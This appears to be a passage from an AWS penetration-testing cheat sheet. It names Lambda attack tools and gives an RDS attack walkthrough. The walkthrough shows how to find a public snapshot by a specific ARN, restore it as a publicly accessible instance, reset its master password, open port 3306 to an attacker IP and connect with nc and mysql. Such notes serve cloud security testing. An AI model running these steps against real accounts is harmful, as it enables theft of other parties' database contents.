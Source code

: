 ### Tools

```
# https://github.com/puresec/lambda-proxy
# SQLMap to Lambda!!!
python3 main.py
sqlmap -r request.txt

# https://github.com/twistlock/splash
# Pseudo Lambda Shell

```

## **AWS Inspector**

```
# Amazon Inspector is an automated security assessment service that helps improve the security and compliance of applications deployed on AWS.
```

## **AWS RDS**

### **Basic**

```
aws rds describe-db-instances
```

### **Attacks**

```
# Just like a MySQL, try for sqli!
# Check if 3306 is exposed
# Sqlmap is your friend ;)

# Stealing RDS Snapshots
- Searching partial snapshots
aws rds describe-db-snapshots --include-public --snapshot-type public --db-snapshot-identifier arn:aws:rds:us-east-1:159236164734:snapshot:globalbutterdbbackup
- Restore in instance
aws rds restore-db-instance-from-db-snapshot --db-instance-identifier recoverdb --publicly-accessible --db-snapshot-identifier arn:aws:rds:us-east-1:159236164734:snapshot:globalbutterdbbackup --availability-zone us-east-1b
- Once restored, try to access
aws rds describe-db-instances --db-instance-identifier recoverdb
- Reset the master credentials
aws rds modify-db-instance --db-instance-identifier recoverdb --master-user-password NewPassword1 --apply-immediately
    - Takes some time, you can check the status:
    aws rds describe-db-instances
- Try to access it from EC2 instance which was restored
nc rds-endpoint 3306 -zvv    
- If you can't see, you may open 3306:
    - In RDS console, click on the recoverdb instance
    - Click on the Security Group
    - Add an Inbound rule for port 3306 TCP for Cloudhacker IP
 - Then connect it
 mysql -u <username> -p -h <rds-instance-endpoint>

```

